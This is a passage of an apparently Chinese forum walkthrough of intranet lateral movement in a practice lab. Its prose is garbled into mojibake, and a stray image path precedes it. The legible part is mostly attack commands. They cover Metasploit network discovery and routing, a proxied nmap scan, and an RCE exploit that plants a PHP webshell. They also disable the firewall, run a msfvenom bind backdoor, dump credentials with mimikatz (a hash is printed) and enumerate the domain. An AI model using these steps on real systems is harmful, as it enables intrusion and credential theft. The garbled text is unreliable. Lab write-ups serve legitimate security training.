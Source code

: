 

æ¥çå½åä¸»æºå­å¨åªäºç½æ®µrun get_local_subnets:  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_THA4QSWCV8GQDFW.png)  
å è¿è¡å ç½ä¸­å¾ä¸»æºåç°ï¼ä½¿ç¨msfèªå¸¦å¾arpï¼run arp_scanner -r
10.10.1.0/24  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_RXA64W6P6KGQMST.png)  
Msfæ·»å è·¯ç±ï¼run autoroute -s 10.10.1.0/24  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_TVHBTMTHFX4T4SU.png)  
å¯¹æåç°çIPè¿è¡ç«¯å£æ«æï¼proxychains nmap -sC -A 10.10.1.130 -p
80,53,1433,49154,6588,3389,135,21,51464,999ï¼å¯è§åªæ80ç«¯å£æ¯å¼æ¾å¾ï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_AVD38HKHPUF92DH.png)  
éè¿è®¿é®80ç«¯å£å¾ç¥æ¯éè¾¾oaå°è¯ä½¿ç¨å ¶RCEæ¼æ´ï¼å
ç¨èåçæphpå°é©¬åå©ç¨RCE expèæ¬è¿è¡æ»å»ï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_RKWANRRCX9RTR7W.png)  
è¿æ¥å°é©¬ï¼å½åæéä¸ºsystem:  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_R33T3V9TZPRHTS9.png)



å©ç¨Net startãtasklistãnetstat -anoç­ç¸å
³å½ä»¤è¿è¡ä¿¡æ¯æ¶éï¼å¾ç¥windows Firewallæå¼ï¼æ§è¡NetSh
Advfirewall set allprofiles state offå½ä»¤å ³é­é²ç«å¢ã  
æ¥çç¨msfçæbindåé¨ï¼msfvenom -p windows/meterpreter/bind_tcp
lport=13777 -f exe -o hb.exeï¼ç¨antswordæä»¶ä¸ä¼ bind.exeï¼å¹¶æ§è¡ï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_F988C99DRJT97MU.png)



Msfæ§è¡ç¸åºå½ä»¤è¿è¡è¿æ¥ï¼  
use exploit/multi/handler  
set payload windows/meterpreter/bind_tcp  
set RHOST 10.10.1.130  
set lport 13777  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_R9RASVX8FYX4BYW.png)  
æ¥çå½åä¸»æºå­å¨åªäºç½æ®µrun get_local_subnets:  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_8TVXF39CYHBT8Q7.png)  
Migrate è¿ç§»è¿ç¨åï¼load kiwiå è½½mimiatzï¼kiwi_cmd
sekurlsa::logonpasswordså°è¯ä½¿ç¨å
¶è·åhashï¼357bec0ee1f524c62ba536fcd3f74472  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_XXJMF4T78PEAU72.png)  
æ§è¡sysinfoï¼å¯è§è¯¥ä¸»æºå­å¨åä¸­ï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_8TSH9A28GRMWDB9.png)  
ä½¿ç¨net timeå®ä½åæ§ï¼  
Chcp 65001è®¾ç½®ä¹±ç   
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_6VNDH2KJTJCMRNS.png)  
ä½¿ç¨msfèªå¸¦æ¨¡åå®ä½åæ§run
post/windows/gather/enum_domainï¼å¾å°åæ§ipï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_5KMBRP8X68XTGRB.png)  
ä½¿ç¨msfèªå¸¦æ¨¡åå¤æ­è¯¥ä¸»æºæ¯å¦æåç®¡ç»å½è¿ï¼run
post/windows/gather/enum_logged_on_usersï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_ZX4WMXPJEM9U33T.png)  
è¿æå ¶ä»ç¸å ³msfèªå¸¦å¾æ¶éä¿¡æ¯æ¨¡åï¼run
post/windows/gather/enum_ad_groupsï¼  
run post/windows/gather/enum_domain_tokens
